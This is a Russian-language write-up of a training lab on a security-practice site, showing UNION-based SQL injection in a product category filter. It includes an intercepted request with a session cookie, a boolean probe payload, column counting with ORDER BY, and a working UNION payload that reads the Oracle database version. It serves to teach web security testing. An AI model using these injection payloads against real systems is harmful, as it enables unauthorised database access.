


<p align="center">
  
</p>

---

- 🎯 **Target:** SQL injection Lab - vulnerability allowing login bypass
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Union Based)

---


## 🔍 Request interception

> уязвимость SQL инъекции находится в функционале фильтра категорий продукта.

> Перехватываю запрос выбора произвольного фильтра (для примера `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Для решения этой лабы мне нужно вывести версию используемой базы данных.

> Использую UNION-based SQL инъекцию для извлечения данных.

> **Note:** `UNION` — это оператор в языке запросов `SQL` который объединяет результаты двух `SELECT` запросов с одинаковым числом столбцов и совместимыми типами данных.
> Тем самым я могу извлечь данные из произвольной таблицы.

> Проверяю что `SQL` инъекция возможна:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:


> Ок. Определяю количество столбцов в таблице. Это важно по скольку `UNION` требует чтобы обе части `SELECT` запроса возвращали одинаковое количество столбцов.
> Использую оператор `ORDER BY` который используется для сортировки результатов запроса по одному или нескольким столбцам

> Для перебора столбцов использую `Intruder`.
> Генерирую текстовый файл с числами от `1 до 10` (например не больше 10 столбцов):

```bash

seq 1 10 > numbers.txt

```

> запускаю перебор столбцов:


> На позиции `3` сервер возвращает ошибку:



> Это означает что столбцов в таблице `2`.

> Чтобы отобразить версию Oracle базы данных использую запрос `SELECT banner FROM v$version`.

> Так как столбцов в таблице `2` то добавляю затычку в виде `null` чтобы количество столбцов в двух `SELECT` запросах совпадало.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:



> Получаю информацию о версии Oracle Database.


